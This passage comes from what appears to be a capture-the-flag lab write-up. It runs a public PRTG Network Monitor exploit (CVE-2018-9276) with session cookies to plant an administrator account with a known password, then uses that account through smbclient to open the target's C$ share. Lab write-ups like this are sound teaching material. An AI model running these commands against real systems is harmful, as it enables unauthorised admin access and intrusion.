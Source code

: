 ```
$ ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.939709617.1623416767; _gid=GA1.4.1182283071.1623416767; OCTOPUS1813713946=ezYzRTBGRkQ1LTgzQUMtNDFFNy05RkFFLTQ2Qjc0MjQ2MjlFMX0%3D;"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

With the successful execution of the exploit, a new user is created on the target system with administrator privilege which we can use to access the root flag.

## **Using SMB**
During recon, we had found that the system had a SMB share that was acccessible to authenticated users only. Now that we have credentials, we can try to connect to the share and gain access to the system flag.

```
$ smbclient --user=pentest -L \\\\10.10.10.152\\                                                                                                               1 ⨯ 2 ⚙
Enter WORKGROUP\pentest's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
$ smbclient --user=pentest \\\\10.10.10.152\\C$                                                                                                                    2 ⚙
Enter WORKGROUP\pentest's password: 
Try "help" to get a list of possible commands.
smb: \> cd Users
smb: \Users\> ls
```